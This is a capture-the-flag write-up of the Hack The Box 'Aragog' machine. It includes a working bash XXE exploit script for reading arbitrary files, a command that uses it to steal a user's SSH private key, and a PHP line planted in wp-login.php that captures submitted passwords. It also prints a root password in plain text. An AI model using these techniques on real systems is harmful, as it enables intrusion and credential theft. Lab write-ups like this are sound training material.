# [Aragog](https://app.hackthebox.com/machines/aragog)

```bash
nmap -p- --min-rate 10000 10.10.10.78 -Pn
```




Let's do greater nmap scan for open ports(21,22,80).

```bash
nmap -A -sC -sV -p21,22,80 10.10.10.78 -Pn
```




I see that Anonymous login is allowed, let's login and look for what we find.




I see just 'test.txt' file and content of this is empty thing.


For port 80, I need to add ip address into '/etc/hosts' file for resolving purposes.





Let's do directory enumeration.

```bash
gobuster dir -u http://aragog.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,txt,js
```



I see that `hosts.php` file is valid on http server.




I guess that it makes calculations from file 'test.txt' file which located on **ftp server**.

From structure of 'test.txt' file , I see that it is actually **XML**(Extended Markup Language) syntax.


That's proof.




As it is XML language syntax, one vulnerability XML injection comes to my mind .

Let's test.




As a result, I can read all files what I need on my target system.

Now, I wrote a script to read any files on system.

```bash
#!/bin/bash

if [ "$#" == "1" ]; then
    file=$1
else
    echo "$0 [file]"
    exit 1
fi

exploit="<!DOCTYPE foo[
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM \"$file\"> ]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>"

echo "$exploit" > tmp
curl -s -X POST -d @tmp http://aragog.htb/hosts.php | tee $(basename "$file")
rm tmp

```




I see that there is user called '**florian**', let's try to find **private SSH key** file of this user.

```bash
./exploit.sh /home/florian/.ssh/id_rsa
```




Let's get private ssh key file , change mode and login.



user.txt




Once, we run the `pspy64` to see all hidden processes in background.

We see that 'wp-login.py' file is located in '/home/cliff' folder which runs permanently.

Let's edit 'wp-login.php' file that writes input into txt file on '/tmp' folder.

```php
file_put_contents('/tmp/output.txt',file_get_contents('php://input'))
```




From here, I see take password of user.




root: !KRgYs(JFO!&MTr)lf


root.txt


